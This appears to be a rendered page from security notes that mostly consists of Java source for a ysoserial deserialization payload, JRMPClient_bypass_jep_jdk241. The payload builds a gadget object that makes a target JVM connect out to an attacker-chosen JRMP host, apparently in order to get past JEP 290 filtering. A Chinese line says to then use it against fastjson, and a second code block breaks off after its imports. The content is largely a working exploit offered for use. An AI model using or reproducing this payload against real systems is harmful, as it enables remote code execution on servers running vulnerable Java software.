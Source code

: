 ```java
package ysoserial.payloads;

import ysoserial.payloads.util.PayloadRunner;

import java.lang.reflect.Constructor;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.server.*;
import java.util.Random;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import ysoserial.payloads.util.Reflections;

public class JRMPClient_bypass_jep_jdk241 extends PayloadRunner implements ObjectPayload<Remote> {

    public Remote getObject (final String command ) throws Exception {

        String host;
        int port;
        int sep = command.indexOf(':');
        if ( sep < 0 ) {
            port = new Random().nextInt(65535);
            host = command;
        }
        else {
            host = command.substring(0, sep);
            port = Integer.valueOf(command.substring(sep + 1));
        }
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint(host, port);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));

        RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler((RemoteRef) ref);
        RMIServerSocketFactory serverSocketFactory = (RMIServerSocketFactory) Proxy.newProxyInstance(
            RMIServerSocketFactory.class.getClassLoader(),// classloader
            new Class[] { RMIServerSocketFactory.class, Remote.class}, // interfaces to implements
            handler// RemoteObjectInvocationHandler
        );
        // UnicastRemoteObject constructor is protected. It needs to use reflections to new a object
        Constructor<?> constructor = UnicastRemoteObject.class.getDeclaredConstructor(null); // 获取默认的
        constructor.setAccessible(true);
        UnicastRemoteObject remoteObject = (UnicastRemoteObject) constructor.newInstance(null);
        Reflections.setFieldValue(remoteObject, "ssf", serverSocketFactory);
        return remoteObject;
    }

    public static void main ( final String[] args ) throws Exception {
        Thread.currentThread().setContextClassLoader(JRMPClient_bypass_jep_jdk241.class.getClassLoader());
        PayloadRunner.run(JRMPClient_bypass_jep_jdk241.class, args);
    }
}
```
然后打fastjson就可以了
```java
package ysoserial.payloads;

import com.alibaba.fastjson.JSONObject;
```